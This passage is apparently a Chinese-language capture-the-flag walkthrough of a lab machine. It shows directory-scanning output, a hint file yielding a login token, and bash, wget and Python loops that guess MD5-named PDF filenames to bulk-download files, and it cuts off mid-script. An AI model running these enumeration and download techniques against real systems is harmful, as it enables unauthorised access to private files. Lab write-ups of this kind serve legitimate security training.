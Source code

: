 开放了`22、80、8080`端口,有两个`web`端口分别访问一下，`8080`端口需要`token`登陆,再扫一下目录

```shell
└─# dirsearch -u http://$IP:8080  -x 403 -e txt,php,html
Target: http://192.168.43.97:8080/
[07:33:02] Starting: 
[07:33:02] 301 -   57B  - /%2e%2e//google.com  ->  /%252E%252E/google.com
[07:33:30] 301 -   54B  - /axis//happyaxis.jsp  ->  /axis/happyaxis.jsp
[07:33:30] 301 -   65B  - /axis2//axis2-web/HappyAxis.jsp  ->  /axis2/axis2-web/HappyAxis.jsp
[07:33:30] 301 -   59B  - /axis2-web//HappyAxis.jsp  ->  /axis2-web/HappyAxis.jsp
[07:33:36] 301 -   87B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[07:33:48] 301 -   77B  - /engine/classes/swfupload//swfupload_f9.swf  ->  /engine/classes/swfupload/swfupload_f9.swf
[07:33:48] 301 -   74B  - /engine/classes/swfupload//swfupload.swf  ->  /engine/classes/swfupload/swfupload.swf
[07:33:49] 301 -   62B  - /extjs/resources//charts.swf  ->  /extjs/resources/charts.swf
[07:33:55] 301 -   72B  - /html/js/misc/swfupload//swfupload.swf  ->  /html/js/misc/swfupload/swfupload.swf
[07:34:04] 303 -   28B  - /logout  ->  /
└─# gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x.txt,.php,.html,.bak
===============================================================
/index.html           (Status: 200) [Size: 6]
/hint.txt             (Status: 200) [Size: 44]
```

使用`Gobuster`扫描`80`端口时,发现提示信息`hint.txt`

```shell
└─# curl -s http://$IP/hint.txt                     
What's the ultimate answer to the universe?

```

网页搜索可知宇宙的终极答案是`42`。获得`8080`端口登陆`token：42`

### 3.测试`8080`端口

 拿到`token：42`，登陆http://192.168.43.97:8080/ 后显示文件转换系统

![image-20250625211540869](https://gitee.com/shui666/images/raw/master/images/image-20250625211540869.png)

提示输出名称可以跳转到浏览页面`http://192.168.43.97:8080/view/?filename=c4ca4238a0b923820dcc509a6f75849b.pdf`，测试了并不能伪协议读文件，注意到文件名是32位的`MD5`值，去`cmd5`[[网站](https://www.cmd5.com/)](https://www.cmd5.com/)解码后是`1`，继续构造不同数字测试，发现文件名可以显示数字`100`内的`pdf`文件，编写个脚本全部取下来，注意带着`cookie "session_token=42"`

```shell
#bash脚本全部下载下来
for i in {1..100}; do curl -s -o "${i}.pdf" --cookie "session_token=42" "http://192.168.43.97:8080/view/?filename=$(echo -n $i | md5sum | awk '{print $1}').pdf"; done
===============================================================
#作者的wget方式
for i in {1..100}; do md5=$(echo -n $i | md5sum | awk '{print $1}'); wget --header="Cookie: session_token=42" "http://172.21.79.235:8080/view/?filename=${md5}.pdf"; done
===============================================================
#或者python脚本
import requests
import hashlib
import os


def download_pdfs():
    base_url = "http://192.168.43.97:8080/view/?filename="
    cookies = {'session_token': '42'}  # 添加的cookies

    for num in range(1, 100):
```
